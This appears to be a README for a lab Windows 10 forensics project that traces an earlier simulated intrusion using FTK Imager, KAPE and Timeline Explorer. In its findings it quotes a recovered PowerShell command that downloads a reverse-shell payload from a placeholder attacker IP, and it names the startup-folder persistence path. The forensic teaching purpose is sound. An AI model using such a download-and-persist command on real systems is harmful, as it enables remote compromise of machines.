 # WINDOWS FORENSICS

## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier Windows 10 red team simulation, where I compromised a lab machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing disk images, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## 1. ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:
| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.001`, consolidating these artifacts, ensuring proper evidence integrity.

---

## 2. EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## 3. EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## 4. PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## 5. MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## 6. FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:

- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.

- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.

- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.

- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## 7. BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.

This provided a clear chronological picture of the attack.

---

## SUMMARY
- Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:

---

> ⚠️ Disclaimer:
> 
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.
